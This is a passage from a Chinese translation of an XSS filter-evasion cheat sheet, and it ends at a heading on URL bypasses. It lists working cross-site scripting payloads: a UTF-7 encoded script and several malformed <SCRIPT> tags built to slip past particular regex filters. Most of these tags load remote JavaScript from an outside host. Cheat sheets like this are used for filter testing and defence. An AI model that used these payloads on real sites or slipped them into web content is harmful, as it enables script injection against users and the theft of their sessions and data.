 ```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
```

## 使用 HTML 引用封装的 xss

他是被测试在 ie，具体因情况而异。它是为了绕过那些可以输入 "<SCRIPT>" 但不允许输入 "<SCRIPT SRC..."，通过正则 "`/<script[^>]+src/i`" 进行过滤的 xss 过滤区。

```
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js">
```

为了执行 xss 代码在那些允许输入 "<SCRIPT>" 但不允许 "`<script src...`" 靠正则拼配 "`/<script((\s+\w+(\s*=\s*(?:"(.) _?"|'(.)_ ?'|[^'">\s]+))?)+\s*|\s*)src/i`" （这个是重要的，因为我已经看到这个正则在实际环境中。）

```
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

另一个逃避相同正则 "`/<script((\s+\w+(\s*=\s*(?:"(.) _?"|'(.)_ ?'|[^'">\s]+))?)+\s*|\s*)src/i`" 的 xss 代码

```
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

这是另一个 xss 例子去绕过相同的过滤器，关于 "`/<script((\s+\w+(\s*=\s*(?:"(.) _?"|'(.)_ ?'|[^'">\s]+))?)+\s*|\s*)src/i`" 的正则过滤。我知道，我说过我将不会去痛痛快快的聊减灾技术。但是这是我所看到的唯一例子在允许用户输入 < SCRIPT > 但是不允许通过 src 加在远程脚本的过滤这个 xss 的可用方法。（当然，还有一些其他方法去处理它，如果它们允许 < SCRIPT> ）

```
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

最后一个绕过 "`/<script((\s+\w+(\s*=\s*(?:"(.) _?"|'(.)_ ?'|[^'">\s]+))?)+\s*|\s*)src/i`" 正则匹配的例子，通过重音符。（再以无法工作在 firfox）

```
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

这个 xss 例子押注域哪些正则并不去拼配一对引号，而是去发现任何引号后就立即结束参数字符串。

```
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

这 xss 仍然让我担心，因为他是几乎没有肯呢过去停止在没有阻止活动内容的情况下。

```
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

## URL 字符串绕过

这里假设 " [http://www.google.com/](http://www.google.com/) " 这种在语法上是不被允许的。

#### IP 代替域名
